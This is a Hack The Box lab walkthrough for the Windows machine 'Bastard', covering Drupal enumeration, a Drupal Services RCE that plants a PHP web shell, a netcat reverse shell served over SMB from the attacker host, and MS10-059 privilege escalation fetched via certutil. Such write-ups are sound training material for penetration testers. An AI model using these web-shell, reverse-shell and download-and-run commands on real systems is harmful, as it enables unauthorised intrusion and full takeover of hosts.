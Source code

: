 # Bastard 

**OS:** Windows

**Level:** Medium

**Links:** [1](https://www.hackthebox.com/machines/Bastard)  [2](https://app.hackthebox.com/machines/Bastard)

**Machine ip:** 10.10.10.9

![Bastard](https://github.com/h4md153v63n/CTFs/assets/5091265/84d54684-632c-4ac5-ac8e-146a4b2d7267)


## Reconnaissance
```
sudo masscan -p1-65535,U:1-65535 --rate=1000 10.10.10.9 -e tun0 > ports

ports=$(cat ports | awk -F " " '{print $4}' | awk -F "/" '{print $1}' | sort -n | tr '\n' ',' | sed 's/,$//')

sudo nmap -Pn -n -sV -sC -O -p$ports 10.10.10.9 --open
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/3af46416-e08d-4b5c-bdfb-0d8a16c4e1fb)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/c9205d7a-b825-43c2-b71b-15b0456a3bb3)


## Enumeration
Visit **http://10.10.10.9**.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/cf5880f4-a25e-4c05-9b77-86ee83268cc1)

Check **http://10.10.10.9/CHANGELOG.txt**.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/5163edd8-e04c-472a-bd4e-45e64c7c4083)

Also try to run **droopescan** to enumerate the Drupal site [1](https://0xdf.gitlab.io/2019/03/12/htb-bastard.html#drupal---tcp-80)


## Exploitation & Gaining Access

### Method 1: Drupal CVE:N/A [1](https://www.exploit-db.com/exploits/41564)

Run searchsploit:

```
searchsploit drupal 7.x

searchsploit -m 41564
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/d11fa67b-28a5-4a61-a50f-57a97b5b080c)

Exploit CVE:N/A [1](https://www.exploit-db.com/exploits/41564):

```
gobuster dir -e -w /usr/share/wordlists/dirb/common.txt -u http://10.10.10.9/ -k -n -r -t 10 --exclude-length 1233
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/0ccab42b-9061-43f5-9c20-7b7c06453c46)

Test **http://10.10.10.9/rest** on the browser or using **curl**.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/575bf492-5f0d-4771-b1b2-9a4d444580b6)

`curl http://10.10.10.9/rest`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/dcd60e3d-a566-4697-966d-4c8fbcad26b2)

Modify the below lines in the exploit code:

```
$url = 'http://10.10.10.9';
$endpoint_path = '/rest';
$endpoint = 'rest_endpoint';

$file = [
    'filename' => 'cmd.php',
    'data' => '<?php system($_GET["cmd"]); ?>'
];
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/b01489e0-aa1c-4305-ae2f-d9ae3dbd4b2b)

Run the exploit: `php 41564.php`

In case of **PHP Fatal error:  Uncaught Error: Call to undefined function curl_init()** error, run `sudo apt install php-curl` to install **php-curl**:

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/293cb05e-6870-46cc-812d-1185ac050fa2)

Rerun the exploit: `php 41564.php`

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/ab1d4ce6-aee4-4848-ba58-e3312d37e1c2)

It creates 2 files: **session.json** and **user.json**. 

Execute **http://10.10.10.9/cmd.php?cmd=whoami%20/all**

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/557645c5-3039-4d4c-ab37-c4e5a0a724b8)

```
# On the kali attack vm: Start smbserver to share a copy of nc.exe
smbserver.py win /usr/share/windows-binaries/

# On the kali attack vm: Start netcat listener
nc -lnvp 4444

# Trigger the netcat revershell on the browser:
http://10.10.10.9/cmd.php?cmd=\\10.10.14.24\win\nc.exe -e cmd.exe 10.10.14.24 4444
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/dcb8eaec-0ef3-4de7-b6ac-29859f8eecd4)

Get the revershell, and read user flag:

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/652b50a0-4934-4ecd-8c70-20636bc5ac0d)


### Method 2: Drupal Session Cookie Bypass and Code/Command Injection
Check the different solution [1](https://rana-khalil.gitbook.io/hack-the-box-oscp-preparation/windows-boxes/bastard-writeup-w-o-metasploit#id-03d0)


### Method 3: Drupalgeddon2 -> CVE-2018-7600 [1](https://www.exploit-db.com/exploits/44449)
Check the solution [1](https://0xdf.gitlab.io/2019/03/12/htb-bastard.html#drupalgeddon2)

Control the links [1](https://www.exploit-db.com/exploits/44449) [2](https://github.com/dreadlocked/Drupalgeddon2) [3](https://unit42.paloaltonetworks.com/unit42-exploit-wild-drupalgeddon2-analysis-cve-2018-7600/#pu3blic-exploits)


### Method 4: Drupalgeddon3 -> CVE-2018-7602 [1](https://www.exploit-db.com/exploits/44542)
Check the solution [1](https://0xdf.gitlab.io/2019/03/12/htb-bastard.html#drupalgeddon3)


## Privilege Escalation

### Method 1: MS10–059
Run `systeminfo` command:

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/c0ed2707-e0cb-481d-b467-a6d5aaaf90df)

Run Windows Exploit Suggester:

```
# On the kali attack vm:
python2 windows-exploit-suggester.py --update

python2 windows-exploit-suggester.py --database 2024-04-14-mssb.xls --systeminfo systeminfo.txt
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/1c85b903-336c-44b0-8e07-07b9f66c9861)

There are many exploits for privilege escalation here, but for now try **MS10–059**.

Download [exploit](https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS10-059/MS10-059.exe), and transfer to the target victim, then prepare netcat listener, and run the **MS10–059.exe**:

```
# On the kali attack vm:
sudo python3 -m http.server 80

nc -lnvp 5555

# On the target machine:
certutil.exe -urlcache -split -f "http://10.10.14.24/MS10-059.exe" MS10-059.exe

MS10-059.exe 10.10.14.24 5555
```

Get the shell as **nt authority\system**, and read the root flag:

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/7d279287-cbd6-42b2-8a42-fa6be81d17b6)


# References & Alternatives
+ https://vvmlist.github.io/#Bastard
+ https://rana-khalil.gitbook.io/hack-the-box-oscp-preparation/windows-boxes/bastard-writeup-w-o-metasploit
+ https://0xdf.gitlab.io/2019/03/12/htb-bastard.html
+ https://medium.com/@siddharth.singhal1995/hackthebox-walkthrough-bastard-7-a56cfef566f4
    + https://medium.com/@toneemarqus/bastard-htb-manual-walkthrough-2023-oscp-journey-b47fc418f3d


## CVE Scripting
+ **Drupal:** CVE:N/A [1](https://www.exploit-db.com/exploits/41564)
+ **Drupalgeddon2 / CVE-2018-7600:**
    + https://www.exploit-db.com/exploits/44449
    + https://github.com/dreadlocked/Drupalgeddon2
    + https://unit42.paloaltonetworks.com/unit42-exploit-wild-drupalgeddon2-analysis-cve-2018-7600/#pu3blic-exploits
+ **Drupalgeddon3 / CVE-2018-7602:**
    + https://www.exploit-db.com/exploits/44542
+ **MS10–059:**
    + https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS10-059/MS10-059.exe 


## Tools
+ **netcat:** https://eternallybored.org/misc/netcat/
+ **droopescan:**
    + https://www.geeksforgeeks.org/droopescan-cms-based-web-applications-scanner/
    + https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/drupal
+ **Windows Exploit Suggester:**
    + https://github.com/AonCyberLabs/Windows-Exploit-Suggester


## Technical Knowledge
+ **pentesting drupal:**
    + https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/drupal


## Problems Solution
+ **PHP Fatal error:  Uncaught Error: Call to undefined function curl_init():** 
    + https://stackoverflow.com/questions/6382539/call-to-undefined-function-curl-init
    + https://enginetemplates.com/call-to-undefined-function-curl_init/


## For More
+ https://www.ambionics.io/blog/drupal-services-module-rce
+ https://en.wikipedia.org/wiki/Internet_Information_Services
+ https://hashcat.net/wiki/doku.php?id=example_hashes
+ https://www.techtarget.com/whatis/definition/Drupal

